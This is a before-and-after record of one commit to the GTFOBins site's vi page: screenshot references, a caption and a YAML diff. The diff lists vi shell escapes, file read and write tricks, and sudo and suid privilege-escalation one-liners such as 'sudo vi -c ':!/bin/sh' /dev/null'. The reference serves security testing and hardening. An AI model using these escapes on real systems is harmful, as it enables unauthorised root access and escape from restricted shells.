

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/vi.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Skim wrong functions from original vi

```diff
--- a/_gtfobins/vi.md
+++ b/_gtfobins/vi.md
@@ -1,13 +1,12 @@
 ---
+description: Modern Unix systems run [`vim`](/gtfobins/vim/) binary when `vi` is called.
 functions:
   shell:
-    - code: vi -c ':!/bin/sh'
+    - code: vi -c ':!/bin/sh' /dev/null
     - code: |
         vi
         :set shell=/bin/sh
         :shell
-    - description: This requires that `vi` is compiled with Python support.
-      code: vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   file-write:
     - code: |
         vi file_to_write
@@ -16,12 +15,6 @@ functions:
         w
   file-read:
     - code: vi file_to_read
-  suid:
-    - code: ./vi -c ':!/bin/sh -p'
-    - description: This requires that `vi` is compiled with Python support.
-      code: ./vi -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
   sudo:
-    - code: sudo vi -c ':!/bin/sh'
-    - description: This requires that `vi` is compiled with Python support.
-      code: sudo vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+    - code: sudo vi -c ':!/bin/sh' /dev/null
 ---
```
